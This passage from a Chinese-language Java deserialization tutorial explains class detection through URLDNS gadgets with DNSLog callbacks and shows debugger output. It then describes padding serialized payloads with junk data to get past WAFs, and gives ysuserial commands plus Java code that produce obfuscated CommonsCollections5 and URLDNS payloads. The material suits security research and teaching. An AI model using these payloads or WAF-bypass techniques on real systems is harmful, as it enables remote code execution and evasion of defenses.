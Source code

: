 我们可以在关键逻辑点打上suspend不勾选的断点来输出日志，这里的代码有如下输出，类存在时的dnslog都成功触发：

```
java.net.URL#hashCode handler.hashCode breakpoint hit: http://comdemocommonTargetDetectClass.d80b043e.dnslog.store

java.io.ObjectInputStream#readSerialData handles.markException breakpont hit: java.lang.ClassNotFoundException: com.demo.FooNotexist

java.io.ObjectInputStream#readSerialData handles.markException breakpont hit: 
java.lang.ClassNotFoundException: com.demo.FooNotexist

java.net.URL#hashCode handler.hashCode breakpoint hit: http://comdemocommonTargetDetectClass2.d80b043e.dnslog.store

java.io.ObjectInputStream#readSerialData handles.markException breakpont hit: java.lang.ClassNotFoundException: com.demo.FooNotexist2
```



我们可以通过其他人编写的扩展工具来进行类探测：

```
java -jar .\ysuserial-1.5-su18-all.jar -g URLDNS -p 'all:xxxxxx.dns.log'
```

### 混淆数据（过WAF）

根据我们在 “类探测”一节所叙述的逻辑，我们可以在 有序的集合中（实现了readObject&writeObject方法的Class）中加入脏数据，从而尽可能混淆我们的payload来达到绕过WAF的拦截的目的。

```java
        String file = "demo3.ser";

        List list = new LinkedList();
        for (int i = 0; i < 100; i++) {
            list.add(Utils.MakeClass(getRandomString(10)));
        }
        // gadget
        list.add(makeMap(Utils.MakeClass("com.demo.common.TargetDetectClass"), "TargetDetectClass.d80b043e.dnslog.store"));
        list.add(getRandomString(10));

        Serialize(list, file);
```

可以利用现有工具来获取混淆payload，dt指定混淆类型，dl指定插入的混淆数据长度：

```
java -jar .\ysuserial-1.5-su18-all.jar -g CommonsCollections5 -p whoami -dt 2 -dl 1000
```

工具混淆关键逻辑代码位于：

```
org.su18.ysuserial.payloads.util.dirty.DirtyDataWrapper#doWrap
org.su18.ysuserial.Serializer.SuObjectOutputStream#writeStreamHeader
```
